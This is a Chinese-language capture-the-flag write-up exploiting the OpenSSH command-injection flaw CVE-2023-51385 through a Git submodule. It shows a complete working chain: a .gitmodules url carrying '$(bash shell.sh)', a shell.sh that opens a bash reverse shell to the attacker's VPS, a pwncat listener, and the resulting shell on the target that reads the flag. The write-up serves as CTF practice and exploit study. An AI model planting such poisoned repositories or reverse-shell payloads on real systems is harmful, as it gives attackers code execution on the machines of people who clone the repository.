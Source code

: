 # CVE-2023-51385

:::info

Tags

- OpenSSH 9.6 命令注入

官方数据库记录

> 在 9.6 之前的 OpenSSH 中的 ssh 中，如果用户名或主机名具有 shell 元字符，并且在某些情况下该名称被扩展令牌引用，则可能会发生操作系统命令注入。 例如，不受信任的 Git 存储库可能有一个用户名或主机名中包含 shell 元字符的子模块。

:::

参考

- [SSH ProxyCommand == unexpected code execution (CVE-2023-51385) | Vin01’s Blog](https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html)

首先，题目限制了使用 `Github` 代码托管服务，可以使用 `Gitee` 或者 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务

这里我选择使用 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务

![img](img/image_20240711-231121.png)

## 创建 submodule 仓库

首先，先创建一个仓库，只放置 `README.md` 文件，作为后续利用的 submodule

```shell
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-submodule

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-submodule/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ ls -lh
total 4.0K
-rw-rw-r-- 1 randark randark 5 Jul 24 23:14 README.md
```

然后初始化 git 仓库，并设置仓库，创建提交

:::warning

经过测试，远程靶机的 git 服务只接受分支名为 `master` 的仓库

:::

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git config --global init.defaultBranch master

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-submodule/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git commit -m "init"
[master (root-commit) e7f93b0] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
```

然后在 gogs 平台上建立一个仓库，在本地 git 仓库添加远程仓库，并推送

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 212 bytes | 212.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

此时，在 gogs 平台上就可以看到创建好的仓库了

![img](img/image_20240719-231950.png)

## 创建主仓库

如法炮制，在本地创建一个 `CVE-2023-51385-main` 仓库，并同步到远程 gogs 平台

```shell
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-main

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-main/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-main/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "init"
[master (root-commit) 7cd224b] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-main.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 213 bytes | 213.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

在平台上可以看到

![img](img/image_20240722-232248.png)

## 主仓库添加 submodule

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule add http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git abc123
Cloning into '/home/randark/pocs/CVE-2023-51385-main/abc123'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (3/3), 192 bytes | 192.00 KiB/s, done.

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add submodule"
[master 8218e99] add submodule
 2 files changed, 4 insertions(+)
 create mode 100644 .gitmodules
 create mode 160000 abc123
```

## 修改 .gitmodules 文件 植入恶意载荷

```properties title="原本的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
```

```properties title="修改后的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = ssh://$(bash shell.sh).ichunqiu.com/bar
```

同时添加恶意脚本到根目录

```shell title="shell.sh"
/bin/bash -i >& /dev/tcp/139.*.*.*/9999 0>&1
```

## 更新修改到远程主仓库

```shell
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule update --init --recursive

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add .gitmodules abc123

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add evil"
[master e344f5c] add evil
 2 files changed, 2 insertions(+), 1 deletion(-)
 create mode 100644 shell.sh

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 396 bytes | 396.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
   7cd224b..68f1b06  master -> master
branch 'master' set up to track 'origin/master'.
```

操作之后，在 gogs 平台上可以看到

![img](img/image_20240726-232650.png)

## 执行攻击

在vps上设置监听器

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
bound to 0.0.0.0:9999
```

然后在靶机上填入`CVE-2023-51385-main`仓库的远程地址

```plaintext
http://139.*.*.*:3000/123/CVE-2023-51385-main.git
```

即可收到回连

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
[23:59:02] received connection from 39.106.20.178:33530
[23:59:03] 39.106.20.178:33530: registered new host w/ db
(local) pwncat$ back
(remote) www-data@engine-2:/tmp/CVE-2023-51385-main$ cd /
(remote) www-data@engine-2:/$ cat flag
flag{f5a44b2a-078d-479e-9382-b66a2b986c49}
```
